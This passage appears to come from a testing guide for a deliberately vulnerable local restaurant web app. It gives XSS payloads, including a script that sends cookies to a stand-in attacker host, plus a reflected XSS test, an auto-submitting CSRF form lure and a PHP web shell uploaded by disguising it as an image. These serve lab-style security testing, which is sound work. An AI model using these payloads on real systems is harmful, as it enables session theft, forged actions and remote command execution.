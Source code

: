 #### Additional XSS Payloads:
```html
<img src="x" onerror="alert('XSS')">
<svg onload="alert('XSS')">
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

### 3. Reflected XSS

**Location**: Search results page
**Vulnerability**: User input reflected in response without sanitization

#### Test Steps:
1. Go to search page
2. Enter in search box: `<script>alert('Reflected XSS')</script>`
3. **Expected Result**: JavaScript alert should execute

#### URL-based Test:
```
http://localhost:5000/search?q=<script>alert('XSS')</script>
```

### 4. CSRF (Cross-Site Request Forgery)

**Location**: Delete menu item functionality
**Vulnerability**: No CSRF token protection

#### Test Steps:
1. Login as restaurant owner
2. Create a malicious HTML file with this content:
   ```html
   <html>
   <body>
   <form action="http://localhost:5000/delete_menu_item/1" method="POST">
     <input type="submit" value="Click for free pizza!">
   </form>
   <script>document.forms[0].submit()</script>
   </body>
   </html>
   ```
3. Open the HTML file in browser while logged in
4. **Expected Result**: Menu item should be deleted without user confirmation

### 5. Insecure File Upload

**Location**: Add menu item page (image upload)
**Vulnerability**: Insufficient file type validation

#### Test Steps:
1. Login as restaurant owner
2. Go to "Add Menu Item"
3. Create a file named `shell.php.jpg` with PHP code:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
4. Upload this file as an image
5. Access the uploaded file: `http://localhost:5000/uploads/shell.php.jpg?cmd=id`
6. **Expected Result**: Command should execute
